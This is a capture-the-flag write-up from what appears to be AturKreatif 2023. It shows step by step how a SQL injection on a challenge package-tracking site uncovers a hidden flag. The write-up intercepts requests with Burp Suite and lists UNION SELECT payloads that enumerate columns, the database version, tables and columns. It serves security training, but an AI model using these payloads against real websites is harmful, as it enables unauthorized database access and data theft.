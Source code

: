The system displayed the tracking website that has the illegal package's tracking number

![image](https://github.com/aminnazri00/AturKreatif-2023/assets/86725014/8d9231bf-6516-46e1-8425-60d4058326ef)

1. Can track normal traking number by entering 100920001 or 100920002 or 100920003. It will display the normal package status and other details.
2. Insert any one of the SQL syntax in the box such as ' OR 1 -- - or others but the website will filter because only accept numbers only.
3. Open burp suite and intercept the search box in the website.

![image](https://github.com/aminnazri00/AturKreatif-2023/assets/86725014/d9441653-048b-4543-a6c3-4f1a813dae6a)

5. Enter the id with SQL syntax below

(Note: For the first time only insert one null because want to try and error till get 6 columns that needed)
    
```
-1' UNION SELECT null,null,null,null,null,null-- 
```

6. It will show result with no data.
7. Insert @@version on one of the null will give the current version of the database.

```
-1' UNION SELECT null,null,null,null,null,@@version-- 
```

8. After get the version and what type of the database, we can figure out how their syntax to enter. Find out how to list all the databases and enter next command:

```
-1' UNION SELECT null,null,null,null,null,TABLE_NAME FROM information_schema.tables-- 
```

9. It will list out all tables that available and found w0wg00d that look suspicious.
10. After that need to list out all the columns that available by entering the command below:

```
-1' UNION SELECT null,null,null,null,null,COLUMN_NAME FROM information_schema.columns-- 
```

11. From both information we get, we can retrieve all data from other table by entering command below and found the flag

```
-1' UNION SELECT null,null,null,null,null,f0undM3 FROM w0wg00d-- 
```
